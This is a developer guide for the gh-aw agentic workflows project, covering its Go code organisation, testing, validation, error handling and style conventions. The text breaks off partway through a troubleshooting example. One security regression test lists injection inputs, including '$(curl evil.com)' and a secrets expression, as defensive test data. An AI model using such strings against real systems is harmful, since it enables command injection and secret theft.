



# Developer Instructions for GitHub Agentic Workflows

**Version**: 1.0.0
**Last Updated**: 2026-02-06
**Status**: Comprehensive Developer Guide

---

## Table of Contents

1. [Overview](#overview)
2. [Architecture & Code Organization](#architecture--code-organization)
3. [Development Patterns](#development-patterns)
4. [Testing Guidelines](#testing-guidelines)
5. [Security & Validation](#security--validation)
6. [Performance & Optimization](#performance--optimization)
7. [Error Handling](#error-handling)
8. [Best Practices](#best-practices)
9. [Troubleshooting & Common Issues](#troubleshooting--common-issues)

---

## Overview

GitHub Agentic Workflows (gh-aw) is a system that enables AI agents to interact with GitHub resources through a secure, permission-controlled architecture. This document consolidates developer instructions from multiple sources into a single comprehensive guide.

### Project Structure

```
gh-aw/
├── .github/
│   ├── agents/           # Agent instruction files
│   └── workflows/        # Agentic workflow definitions
├── actions/
│   └── setup/           # Setup actions (JS/shell scripts)
├── cmd/
│   └── gh-aw/           # CLI entry point
├── pkg/
│   ├── cli/             # CLI commands
│   ├── console/         # Terminal output formatting
│   ├── constants/       # Type-safe constants
│   ├── logger/          # Debug logging system
│   ├── parser/          # Markdown/YAML parsing
│   ├── styles/          # Terminal color themes
│   ├── testutil/        # Testing utilities
│   └── workflow/        # Core workflow compilation
├── scratchpad/          # Design specifications
└── docs/                # User-facing documentation
```

### Key Technologies

- **Language**: Go 1.23+
- **Styling**: lipgloss (terminal UI)
- **Testing**: testify (assertions), table-driven tests
- **Validation**: JSON Schema, custom validators
- **Security**: Multi-layer validation, safe outputs architecture

---

## Architecture & Code Organization

### Core Architecture Layers



### Safe Outputs Architecture

The Safe Outputs System implements a four-layer security architecture:



**Key Security Principles:**

1. **Read-Only Agent**: AI agents have `contents: read` only
2. **Permission Isolation**: Write operations execute in separate jobs with minimal permissions
3. **Structured Output**: All requests validated against JSON schemas
4. **Defense in Depth**: Multiple validation layers prevent injection attacks

### File Organization Principles

#### The Create Functions Pattern

One file per GitHub entity creation operation:

```
pkg/workflow/
├── create_issue.go                  (160 lines)
├── create_pull_request.go           (238 lines)
├── create_discussion.go             (118 lines)
├── create_code_scanning_alert.go    (136 lines)
└── create_agent_task.go             (120 lines)
```

**Benefits:**
- Clear separation of concerns
- Easy to locate specific functionality
- Prevents files from becoming too large
- Facilitates parallel development

#### The Engine Separation Pattern

Each AI engine has its own file with shared helpers:

```
pkg/workflow/
├── agentic_engine.go      (450 lines) - Base interface
├── copilot_engine.go      (971 lines) - Copilot implementation
├── claude_engine.go       (340 lines) - Claude implementation
├── codex_engine.go        (639 lines) - Codex implementation
├── custom_engine.go       (300 lines) - Custom engine
└── engine_helpers.go      (424 lines) - Shared utilities
```

#### Domain-Specific Validation Files

Validation is organized by domain:

```
pkg/workflow/
├── validation.go                    - Cross-cutting validation
├── strict_mode_validation.go        - Security policies
├── mcp_config_validation.go         - MCP server config
├── permissions_validator.go         - GitHub permissions
├── pip.go                          - Python package validation
├── npm.go                          - NPM package validation
├── docker.go                       - Docker image validation
└── expression_safety.go            - Expression security
```

### File Size Guidelines

**Target Sizes:**
- Small files: 50-200 lines (utilities, helpers)
- Medium files: 200-500 lines (most features)
- Large files: 500-800 lines (complex features)
- Very large files: 800+ lines (core infrastructure only)

**Red Flags:**
- Multiple distinct responsibilities
- Difficulty naming the file
- Excessive scrolling to find code
- Frequent merge conflicts
- Tests are hard to organize

**Monitoring:** Run `make check-file-sizes` to identify files approaching the 50-function threshold.

### Decision Tree: Should I Create a New File?

```
Is this a new safe output type (create_*)?
├─ YES → Create create_<entity>.go
└─ NO
   │
   Is this a new AI engine?
   ├─ YES → Create <engine>_engine.go
   └─ NO
      │
      Is current file > 800 lines?
      ├─ YES → Consider splitting by logical boundaries
      └─ NO
         │
         Is this functionality independent?
         ├─ YES → Create new file
         └─ NO → Add to existing file
```

---

## Development Patterns

### Semantic Type Aliases

Use meaningful type names for primitive types to improve code clarity and prevent mistakes:

```go
// LineLength represents a line length in characters
type LineLength int

// Version represents a software version string
type Version string

// WorkflowID represents a workflow identifier (basename without .md)
type WorkflowID string

// EngineName represents an AI engine name identifier
type EngineName string

// Constants use the semantic type
const MaxExpressionLineLength LineLength = 120
const DefaultCopilotVersion Version = "0.0.374"
```

**When to Use:**
- Primitive type represents a specific concept
- Multiple unrelated concepts share the same type
- Type name adds clarity beyond comments
- Future validation logic might be needed

**Helper Methods Pattern:**

```go
// String returns the string representation
func (v Version) String() string {
    return string(v)
}

// IsValid returns true if the version is non-empty
func (v Version) IsValid() bool {
    return len(v) > 0
}
```

### Typed Slices for Collections

Provide compile-time type safety for collections:

```go
// GitHubToolName represents a GitHub tool name
type GitHubToolName string

// GitHubAllowedTools is a slice of GitHub tool names
type GitHubAllowedTools []GitHubToolName

// ToStringSlice converts to []string for interoperability
func (g GitHubAllowedTools) ToStringSlice() []string {
    result := make([]string, len(g))
    for i, tool := range g {
        result[i] = string(tool)
    }
    return result
}
```

**Benefits:**
- Type safety: Prevents mixing tool names with arbitrary strings
- Self-documenting: Type names make intent clear
- Conversion helpers: Enable interoperability with legacy code
- IDE support: Better autocomplete and navigation

### Dynamic YAML/JSON Handling

Use `map[string]any` for parsing dynamic structures:

```go
// ImportInputs aggregates input values from all imports
// Uses map[string]any because input values can be string, number, or boolean
ImportInputs map[string]any

// ImportSpec represents a single import with optional inputs
type ImportSpec struct {
    Path   string         // Import path (required)
    Inputs map[string]any // Optional input values
}
```

**When to Use:**
- Parsing YAML/JSON with unknown structure
- Processing user-provided configuration
- Intermediate representation during compilation

**Best Practices:**
1. Document why `any` is used
2. Validate early and convert to typed structures ASAP
3. Use safe type assertions with boolean checks
4. Prefer specific types when structure is known

### String Processing Patterns

#### Sanitize Pattern: Character Validity

**Purpose**: Remove invalid characters for identifiers, file names, artifact names.

```go
// Remove special characters for valid identifiers
sanitized := SanitizeIdentifier("My-Project: Feature/Test")
// Result: "my-project-feature-test"

// Preserve dots and underscores for artifact names
sanitized := SanitizeWorkflowName("My Workflow: Test/Build")
// Result: "my-workflow-test-build"
```

#### Normalize Pattern: Format Standardization

**Purpose**: Standardize format by removing extensions or converting conventions.

```go
// Remove file extensions
normalized := normalizeWorkflowName("weekly-research.md")
// Result: "weekly-research"

// Convert dashes to underscores for consistency
normalized := normalizeSafeOutputIdentifier("create-issue")
// Result: "create_issue"
```

**Decision Tree:**
```
Need to process a string?
│
├─ Need to ensure character validity? → Use SANITIZE
│  ├─ Artifact name / file path → SanitizeWorkflowName()
│  ├─ Identifier / user agent → SanitizeIdentifier()
│  └─ Custom requirements → SanitizeName() with options
│
└─ Need to standardize format? → Use NORMALIZE
   ├─ Remove file extensions → normalizeWorkflowName()
   └─ Convert conventions → normalizeSafeOutputIdentifier()
```

### Interface Patterns

Keep interfaces small and focused:

```go
// ✅ GOOD - Small, focused interface
type Validator interface {
    Validate() error
}

type Namer interface {
    GetName() string
}

// ❌ BAD - Kitchen sink interface
type Tool interface {
    Validate() error
    GetName() string
    GetVersion() string
    Execute() error
    Cleanup() error
}
```

**Best Practices:**
1. Define interfaces where they're used (consumers define needs)
2. Keep interfaces small (prefer composition)
3. Document interface contracts clearly
4. Use interfaces for polymorphism and testability

---

## Testing Guidelines

### Test Organization

Tests are co-located with implementation:

```
pkg/workflow/
├── feature.go
├── feature_test.go              # Unit tests
├── feature_integration_test.go  # Integration tests (//go:build integration)
├── feature_security_regression_test.go  # Security tests
└── feature_fuzz_test.go         # Fuzz tests
```

### Assert vs Require

Use testify assertions appropriately:

```go
func TestSafeOutputsConfiguration(t *testing.T) {
    compiler := NewCompilerWithVersion("1.0.0")

    // Create test file - use require (setup step)
    tmpDir := t.TempDir()
    testFile := filepath.Join(tmpDir, "test.md")
    err := os.WriteFile(testFile, []byte(markdown), 0644)
    require.NoError(t, err, "Failed to write test file")

    // Parse file - use require (critical for test to continue)
    workflowData, err := compiler.ParseWorkflowFile(testFile)
    require.NoError(t, err, "Failed to parse markdown content")
    require.NotNil(t, workflowData.SafeOutputs, "SafeOutputs should not be nil")

    // Verify behavior - use assert (actual test validations)
    assert.Equal(t, "${{ vars.APP_ID }}", workflowData.SafeOutputs.App.AppID)
    assert.Equal(t, "${{ secrets.APP_PRIVATE_KEY }}", workflowData.SafeOutputs.App.PrivateKey)
}
```

**Key Principle:**
- **`require.*`** - Critical setup steps (stops test immediately on failure)
- **`assert.*`** - Actual validations (allows test to continue)

### Table-Driven Tests

Use table-driven tests for multiple scenarios:

```go
func TestValidateEngine(t *testing.T) {
    tests := []struct {
        name        string
        engine      string
        expectError bool
    }{
        {
            name:        "valid copilot engine",
            engine:      "copilot",
            expectError: false,
        },
        {
            name:        "invalid engine",
            engine:      "chatgpt",
            expectError: true,
        },
        {
            name:        "empty engine",
            engine:      "",
            expectError: true,
        },
    }

    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            err := validateEngine(tt.engine)
            if (err != nil) != tt.expectError {
                t.Errorf("expected error: %v, got: %v", tt.expectError, err)
            }
        })
    }
}
```

**Benefits:**
- Clear test case names
- Independent test execution
- Supports parallel execution (`t.Parallel()`)
- Easy to add new test cases

### Security Regression Tests

Ensure security fixes remain effective:

```go
// TestSecurityTemplateInjection tests that template injection is prevented
func TestSecurityTemplateInjection(t *testing.T) {
    tests := []struct {
        name     string
        input    string
        expected string
    }{
        {
            name:     "secret injection attempt",
            input:    "${{ secrets.TOKEN }}",
            expected: "blocked",
        },
        {
            name:     "command injection attempt",
            input:    "$(curl evil.com)",
            expected: "sanitized",
        },
    }

    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            result := sanitizeInput(tt.input)
            assert.NotContains(t, result, tt.input, "Input should be sanitized")
        })
    }
}
```

**Run Security Tests:**
```bash
make test-security
go test -v -run '^TestSecurity' ./pkg/workflow/... ./pkg/cli/...
```

### Fuzz Testing

Use Go's built-in fuzzing for edge case discovery:

```bash
# Run expression parser fuzz test
go test -fuzz=FuzzExpressionParser -fuzztime=30s ./pkg/workflow/

# Run for extended duration
go test -fuzz=FuzzExpressionParser -fuzztime=1m ./pkg/workflow/
```

**Available Fuzz Tests:**
- `FuzzExpressionParser` - GitHub expression validation
- `FuzzMentionsFiltering` - Mention sanitization
- `FuzzSanitizeOutput` - Output sanitization
- `FuzzYAMLParsing` - YAML parsing robustness

### Benchmarks

Track performance of critical operations:

```bash
# Run all benchmarks (optimized for CI)
make bench

# Run benchmarks with more iterations
make bench-compare

# Run with memory profiling
go test -bench=. -benchmem -benchtime=3x -run=^$ ./pkg/...
```

**Performance Baselines** (approximate):
- Workflow compilation: ~100μs - 2ms
- Frontmatter parsing: ~10μs - 250μs
- Expression validation: ~700ns - 10μs
- Log parsing: ~50μs - 1ms

### Why No Mocks or Test Suites?

This project intentionally avoids mocking frameworks and test suites:

**No mocks:**
- Simplicity: Tests use real component interactions
- Reliability: Tests verify actual behavior
- Confidence: Tests catch real integration issues

**No test suites (testify/suite):**
- Parallel execution: Standard Go tests run in parallel
- Simplicity: No suite lifecycle to understand
- Explicitness: Setup is visible in each test
- Compatibility: Works with standard `go test`

### Running Tests

```bash
# Fast unit tests (recommended during development)
make test-unit       # ~25s

# Full test suite
make test            # ~30s

# Specific tests
go test -v ./pkg/workflow/...
go test -run TestSafeOutputs ./pkg/workflow/...

# Security regression tests
make test-security

# With coverage
make test-coverage

# Benchmarks
make bench

# Fuzz testing
make fuzz

# Linting (includes test quality checks)
make lint

# Complete validation (before committing)
make agent-finish    # Runs build, test, recompile, fmt, lint
```

---

## Security & Validation

### Validation Architecture



### Validation Patterns

#### Pattern 1: Allowlist Validation

For security-sensitive validation:

```go
func validateExpressionSafety(markdownContent string) error {
    matches := expressionRegex.FindAllStringSubmatch(markdownContent, -1)
    var unauthorizedExpressions []string

    for _, match := range matches {
        expression := strings.TrimSpace(match[1])

        // Check if expression is in allowlist
        if !isAllowed(expression) {
            unauthorizedExpressions = append(unauthorizedExpressions, expression)
        }
    }

    if len(unauthorizedExpressions) > 0 {
        return fmt.Errorf("unauthorized expressions found: %v", unauthorizedExpressions)
    }
    return nil
}
```

#### Pattern 2: External Resource Validation

For validating dependencies:

```go
func validateDockerImage(image string, verbose bool) error {
    cmd := exec.Command("docker", "inspect", image)
    output, err := cmd.CombinedOutput()

    if err != nil {
        // Try pulling the image
        pullCmd := exec.Command("docker", "pull", image)
        if pullErr := pullCmd.Run(); pullErr != nil {
            return fmt.Errorf("docker image not found: %s", image)
        }
    }
    return nil
}
```

#### Pattern 3: Schema Validation

For configuration validation:

```go
func (c *Compiler) validateGitHubActionsSchema(yamlContent string) error {
    // Load JSON Schema
    schema := loadGitHubActionsSchema()

    // Parse YAML as JSON
    var data interface{}
    if err := yaml.Unmarshal([]byte(yamlContent), &data); err != nil {
        return err
    }

    // Validate against schema
    if err := schema.Validate(data); err != nil {
        return fmt.Errorf("schema validation failed: %w", err)
    }
    return nil
}
```

#### Pattern 4: Progressive Validation

For multiple related checks:

```go
func (c *Compiler) validateStrictMode(frontmatter map[string]any, networkPermissions *NetworkPermissions) error {
    if !c.strictMode {
        return nil
    }

    // 1. Refuse write permissions
    if err := c.validateStrictPermissions(frontmatter); err != nil {
        return err
    }

    // 2. Require network configuration
    if err := c.validateStrictNetwork(networkPermissions); err != nil {
        return err
    }

    // 3. Validate MCP network
    if err := c.validateStrictMCPNetwork(frontmatter); err != nil {
        return err
    }

    return nil
}
```

### Security Controls

#### Label Sanitization

Prevent injection attacks through labels:

```go
// Label sanitization MUST:
// - Remove all @ characters to prevent mentions
// - Remove control characters (0x00-0x1F, 0x7F-0x9F)
// - Trim whitespace
// - Limit to 64 characters
// - Reject empty labels after sanitization
func sanitizeLabel(label string) string {
    // Implementation in pkg/workflow/safe_outputs.go
}
```

#### Content Sanitization

All agent output must be validated:

```go
// Sanitize string fields for injection patterns
// Validate numeric fields for range limits
// Validate array fields for length limits
// Validate object fields for required properties
```

#### Audit Logging

All operations must be logged:

```go
// Log operations with:
// - Workflow run URL
// - Operation type
// - Target resource
// - Result (success/failure)
// - Timestamp
// - Triggering user or event
```

### Staged Mode

Preview operations without execution:

```yaml
safe-outputs:
  create-issue:
    staged: true  # Preview only, don't execute
```

**Staged mode MUST:**
- Parse and validate all operations
- Display preview in GitHub Actions step summary
- NOT execute any GitHub API operations
- Include full operation details
- Use 🎭 emoji to indicate staged operations

---

## Performance & Optimization

### Token Budget Guidelines

For high-cost workflows consuming significant Copilot tokens:

#### Max Turns Control (Claude/Custom Only)

**Important:** `max-turns` is only supported by Claude and Custom engines, not Copilot.

```yaml
# Claude engine with max-turns
engine:
  id: claude
  max-turns: 30  # Recommended for research/analysis workflows

# Custom engine with max-turns
engine:
  id: custom
  max-turns: 25  # Recommended for CI/automation workflows
```

**How it works:**
- Each "turn" is one round-trip: agent request → AI response
- Includes all tool calls and responses within that turn
- Workflow terminates when max-turns is reached

#### Timeout Control (All Engines)

```yaml
timeout-minutes: 180  # 3 hours - research workflows
timeout-minutes: 45   # 45 minutes - CI cleanup workflows
timeout-minutes: 20   # 20 minutes - single-step automation
```

#### Prompt Optimization (Critical for Copilot)

Since Copilot doesn't support max-turns, use prompt instructions:

```markdown
## Output Guidelines

- Keep responses concise and actionable
- Main report should be under 1000 words
- Use progressive disclosure (details/summary tags)
- Summarize findings instead of exhaustive documentation

## Execution Scope

- Test 6-8 representative scenarios (not all scenarios)
- Focus on quality over quantity
- Prioritize critical issues over complete coverage

## Efficiency Guidelines

- Avoid verbose explanations - focus on actions
- If stuck after 3 attempts, document and move on
- Complete analysis within reasonable time
```

### Workflow Refactoring Patterns

For workflows exceeding 600 lines, apply modularization:

#### Extract Common Functionality

Move reusable components to `.github/workflows/shared/`:

```
.github/workflows/shared/
├── data-collection/
│   └── copilot-session-data-fetch.md
├── analysis/
│   ├── session-analysis-strategies.md
│   └── ci-optimization-strategies.md
├── visualization/
│   └── session-analysis-charts.md
└── utilities/
    ├── reporting.md
    ├── python-dataviz.md
    └── trends.md
```

#### Compose with Imports

```yaml
imports:
  - shared/copilot-session-data-fetch.md
  - shared/session-analysis-charts.md
  - shared/session-analysis-strategies.md
  - shared/reporting.md
```

**Size Targets:**
- Target: 400-500 lines maximum per workflow
- Ideal: 200-300 lines for most workflows
- Hard limit: 600 lines (refactor above this)

**Benefits:**
- Maintainability: Easier to understand focused modules
- Testability: Smaller units are easier to test
- Reusability: Shared modules benefit multiple workflows
- Debugging: Easier to isolate issues

---

## Error Handling

### Console Formatting Requirements

**ALWAYS use console formatting helpers:**

```go
import "github.com/github/gh-aw/pkg/console"

// Error messages
fmt.Fprintln(os.Stderr, console.FormatErrorMessage(err.Error()))

// Success messages
fmt.Fprintln(os.Stderr, console.FormatSuccessMessage("Workflow compiled successfully"))

// Info messages
fmt.Fprintln(os.Stderr, console.FormatInfoMessage("Processing workflow..."))

// Warning messages
fmt.Fprintln(os.Stderr, console.FormatWarningMessage("File has uncommitted changes"))
```

**Key Rules:**
- **ALWAYS** use `fmt.Fprintln(os.Stderr, ...)` for CLI logging
- **NEVER** use `fmt.Println()` or `fmt.Printf()` directly
- All output should go to stderr (except JSON output)

**Available Formatters:**
```go
console.FormatSuccessMessage(msg)    // ✓ prefix, green
console.FormatInfoMessage(msg)       // ℹ prefix, blue
console.FormatWarningMessage(msg)    // ⚠ prefix, yellow
console.FormatErrorMessage(msg)      // ✗ prefix, red
console.FormatCommandMessage(cmd)    // $ prefix, dim
console.FormatProgressMessage(msg)   // ⋯ prefix
console.FormatPromptMessage(msg)     // ? prefix
```

### Error Wrapping Patterns

#### Internal Error Handling (Preserve Chain)

```go
// When error needs to be checked with errors.Is or errors.As
func processConfig(file string) error {
    data, err := os.ReadFile(file)
    if err != nil {
        // Wrap with %w to preserve error type
        return fmt.Errorf("failed to read config file: %w", err)
    }
    return nil
}
```

#### User-Facing Error Handling (Break Chain)

```go
// When presenting error to user
func compileWorkflow(file string) error {
    config, err := loadConfig(file)
    if err != nil {
        // Format error for user, then create new error (breaks chain)
        msg := console.FormatErrorMessage(err.Error())
        fmt.Fprintln(os.Stderr, msg)
        // Create new error without %w to prevent internal types from leaking
        return fmt.Errorf("compilation failed")
    }
    return nil
}
```

**Why break the chain for users?**
Internal error types should not leak to user-facing messages. Breaking the chain with `errors.New()` or `fmt.Errorf()` (without `%w`) prevents downstream code from making assumptions about internal error types.

### Debug Logging

Use the logger package for debug output:

```go
import "github.com/github/gh-aw/pkg/logger"

// Create logger with namespace
var log = logger.New("workflow:compiler")

// Log messages
log.Print("Starting compilation")
log.Printf("Processing %d workflows", count)

// Check if enabled before expensive operations
if log.Enabled() {
    result := expensiveOperation()
    log.Printf("Result: %+v", result)
}
```

**Enable debug logs:**
```bash
# Enable all debug logs
DEBUG=* gh aw compile workflow.md

# Enable specific package
DEBUG=workflow:* gh aw compile workflow.md

# Enable multiple packages
DEBUG=workflow:*,cli:* gh aw compile workflow.md

# Exclude specific loggers
DEBUG=*,-workflow:test gh aw compile workflow.md
```

### Structured Error Types

Use structured errors with context:

```go
// ValidationError for input validation failures
err := workflow.NewValidationError(
    "title",                                    // field name
    titleValue,                                 // invalid value
    "cannot be empty",                          // reason
    "Provide a non-empty value for 'title'",   // suggestion
)

// OperationError for operation failures
err := workflow.NewOperationError(
    "update",              // operation name
    "issue",               // entity type
    "123",                 // entity ID
    cause,                 // underlying error
    "Wait and retry",      // suggestion
)

// ConfigurationError for configuration failures
err := workflow.NewConfigurationError(
    "safe-outputs.max",                         // config key
    "abc",                                      // invalid value
    "must be an integer",                       // reason
    "Use a numeric value like 'max: 3'",       // suggestion
)
```

### Error Message Templates

Follow these patterns for consistency:

#### Validation Error Template
```
[what's wrong]. [what's expected]. [example of correct usage]
```

```go
return fmt.Errorf(
    "invalid engine: %s. Valid engines are: copilot, claude, codex, custom. Example: engine: copilot",
    engineID,
)
```

#### Runtime Error Template
```
[operation failed]. [context]. [suggestion or next step]
```

```go
return fmt.Errorf(
    "failed to read workflow file: %s. Check that the file exists and is readable",
    err,
)
```

#### User-Actionable Error Template
```
[error description]. [why it matters]. [how to fix]
```

```go
return fmt.Errorf(
    "GitHub tool requires 'issues: write' permission. This is required because the workflow creates issues. To fix: add 'issues: write' to the permissions section",
)
```

### Retry and Recovery Patterns

#### Circuit Breaker Pattern

Limit retry attempts to prevent infinite loops:

```javascript
// JavaScript implementation (actions/setup/js/error_recovery.cjs)
const { withRetry } = require('./error_recovery.cjs');

const result = await withRetry(
  async () => {
    return await github.rest.issues.create({ owner, repo, title, body });
  },
  {
    maxRetries: 3,              // Maximum retry attempts
    initialDelayMs: 1000,       // Initial delay
    maxDelayMs: 10000,          // Maximum delay cap
    backoffMultiplier: 2,       // Exponential backoff
  },
  'create issue'
);
```

**Transient Errors (Retry):**
- Network timeouts and connection errors
- HTTP 502, 503, 504 errors
- GitHub API rate limiting
- Temporary infrastructure failures

**Non-Transient Errors (Don't Retry):**
- Validation errors (400 Bad Request)
- Authentication failures (401, 403)
- Resource not found (404)
- Permanent failures (410 Gone)

### Panic Recovery

**When to panic:**
- ✅ Embedded resource loading failure (schemas, action pins)
- ✅ JSON unmarshaling of hardcoded data structures
- ✅ Test setup failures in test helpers

**When NOT to panic:**
- ❌ User input validation errors
- ❌ File I/O errors
- ❌ Network errors
- ❌ Configuration errors
- ❌ Any runtime error users might encounter

---

## Best Practices

### Code Style

#### Naming Conventions

```go
// Package names: lowercase, no underscores
package workflow

// Exported types: PascalCase
type WorkflowData struct {}

// Unexported types: camelCase
type validationResult struct {}

// Constants: PascalCase or SCREAMING_SNAKE_CASE for enums
const MaxExpressionLineLength LineLength = 120
const DEFAULT_TIMEOUT = 30

// Functions: PascalCase (exported) or camelCase (unexported)
func CompileWorkflow() error {}
func normalizeWorkflowName() string {}
```

#### Comments

```go
// Package-level comment (before package declaration)
// Package workflow provides workflow compilation and validation.
package workflow

// Exported function comment (complete sentence)
// CompileWorkflow compiles a markdown workflow to GitHub Actions YAML.
// It validates the workflow structure and generates the output file.
func CompileWorkflow(path string) error {
    // Implementation comments (lowercase, no period for fragments)
    // load workflow file
    data, err := loadWorkflow(path)

    // validate workflow structure
    if err := validate(data); err != nil {
        return err
    }

    return nil
}
```

### Terminal Styling

Use adaptive colors that work in both light and dark terminals:

```go
import "github.com/github/gh-aw/pkg/styles"

// Use pre-configured styles
fmt.Fprintln(os.Stderr, styles.Error.Render("Error message"))
fmt.Fprintln(os.Stderr, styles.Success.Render("Success message"))
fmt.Fprintln(os.Stderr, styles.Info.Render("Info message"))

// Use adaptive colors
color := lipgloss.NewStyle().Foreground(styles.ColorSuccess)
```

**Color Palette:**

| Color | Light Value | Dark Value | Semantic Usage |
|-------|-------------|------------|----------------|
| Error | `#D73737` | `#FF5555` | Error messages, critical issues |
| Warning | `#E67E22` | `#FFB86C` | Warning messages, caution |
| Success | `#27AE60` | `#50FA7B` | Success messages, confirmations |
| Info | `#2980B9` | `#8BE9FD` | Informational messages, tips |
| Purple | `#8E44AD` | `#BD93F9` | File paths, commands |
| Yellow | `#B7950B` | `#F1FA8C` | Progress messages |

### Git Commit Guidelines

Follow conventional commits:

```
feat: add support for custom engines
fix: correct expression validation edge case
docs: update developer instructions
refactor: extract validation to separate file
test: add tests for MCP configuration
chore: update dependencies
```

**Commit Message Structure:**
```
<type>(<scope>): <subject>

<body>

<footer>
```

**Types:**
- `feat`: New feature
- `fix`: Bug fix
- `docs`: Documentation only
- `style`: Code style (formatting, no logic change)
- `refactor`: Code restructuring (no behavior change)
- `test`: Adding or updating tests
- `chore`: Maintenance tasks

### Documentation Standards

#### Code Documentation

```go
// Package-level documentation
// Package workflow provides workflow compilation, validation, and execution
// for GitHub Agentic Workflows. It includes parsers for markdown workflows,
// validators for workflow structure, and compilers that generate GitHub Actions YAML.
package workflow

// Type documentation
// WorkflowData represents a parsed workflow with frontmatter and content.
// It contains all the information needed to compile a workflow to GitHub Actions.
type WorkflowData struct {
    // Frontmatter contains the YAML frontmatter configuration
    Frontmatter map[string]any

    // Content is the markdown body of the workflow
    Content string
}

// Function documentation
// CompileWorkflow compiles a markdown workflow file to GitHub Actions YAML.
// It performs validation and returns an error if the workflow is invalid.
//
// Parameters:
//   - path: Path to the markdown workflow file
//
// Returns:
//   - error: Validation or compilation error, or nil on success
//
// Example:
//   err := CompileWorkflow(".github/workflows/ci.md")
//   if err != nil {
//       log.Fatalf("compilation failed: %v", err)
//   }
func CompileWorkflow(path string) error {
    // Implementation
}
```

#### Design Documentation

Create design docs in `scratchpad/` for:
- New features
- Architecture decisions
- Security patterns
- API specifications

Follow the W3C specification format for formal specifications:
- Abstract
- Status
- Table of Contents
- Conformance Requirements
- Examples
- References

### Anti-Patterns to Avoid

#### ❌ Overusing `any`

```go
// BAD - Using any when type is known
func ProcessConfig(config any) error {
    name := config.(map[string]any)["name"].(string)
}

// GOOD - Use typed struct
type Config struct {
    Name    string
    Version string
}

func ProcessConfig(config Config) error {
    name := config.Name
}
```

#### ❌ God Interfaces

```go
// BAD - Too many responsibilities
type WorkflowProcessor interface {
    Parse() error
    Validate() error
    Compile() error
    Deploy() error
    Monitor() error
    Rollback() error
}

// GOOD - Small, focused interfaces
type Parser interface {
    Parse() error
}

type Validator interface {
    Validate() error
}

type Compiler interface {
    Compile() error
}
```

#### ❌ Mixing Concerns

```go
// BAD - Unrelated functionality in one file
// In create_issue.go
func CreateIssue() {}
func ValidateNetwork() {}  // Unrelated!
func CompileYAML() {}      // Unrelated!

// GOOD - Keep files focused on one domain
```

#### ❌ Vague Naming

```go
// BAD - Non-descriptive file names
utils.go
helpers.go
misc.go
common.go

// GOOD - Use specific names
string_utils.go
engine_helpers.go
```

---

## Troubleshooting & Common Issues

### Enable DEBUG Logging

```bash
# Enable all debug logs
DEBUG=* gh aw compile workflow.md 2>&1 | tee debug.log

# Enable specific packages
DEBUG=workflow:* gh aw compile workflow.md
DEBUG=cli:* gh aw audit 123456
DEBUG=parser:* gh aw compile workflow.md

# Multiple packages
DEBUG=workflow:*,cli:* gh aw compile workflow.md

# Everything except tests
DEBUG=*,-*:test gh aw compile workflow.md
```

### Common Error Scenarios

#### MCP Configuration Errors

**Error:** Missing required fields
```
✗ tool 'my-server' has invalid MCP configuration: tool 'my-server' mcp configuration must specify either 'command' or 'container'
```

**Resolution:**
```yaml
tools:
  my-server:
